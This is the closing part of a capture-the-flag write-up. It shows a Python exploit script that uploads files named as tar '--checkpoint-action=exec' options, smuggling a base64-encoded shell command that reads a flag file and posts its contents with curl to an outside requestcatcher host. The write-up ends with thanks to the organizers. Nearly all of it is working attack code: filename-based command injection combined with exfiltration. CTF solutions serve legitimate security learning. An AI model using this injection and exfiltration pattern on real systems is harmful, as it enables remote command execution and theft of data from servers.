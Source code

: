 ```python
      print("Something went wrong", e)


if __name__ == "__main__":
  x = Exploit(requests.session())
  
  cmd = b'ls /'  # filename is: /flag_89bb6db3a579141b2cd5c7d01fedf863
  cmd = b'cat /flag_89bb6db3a579141b2cd5c7d01fedf863'
  payload = b'curl -X POST -d "$('
  payload += cmd
  payload += b')" https://happi.requestcatcher.com/test'

  b64_payload = base64.b64encode(payload).decode().strip()
  exploit = f'echo {b64_payload} | base64 -d | sh'

  x.upload(filename="--checkpoint=1", data="")
  x.upload(filename=f'--checkpoint-action=exec={exploit}', data="")
  x.upload(filename="dummy", data="")
  _ = x.download()

```


Thanks you for reading, i want to extend a huge thank to the CTF organizers for putting together this nice event.

Happi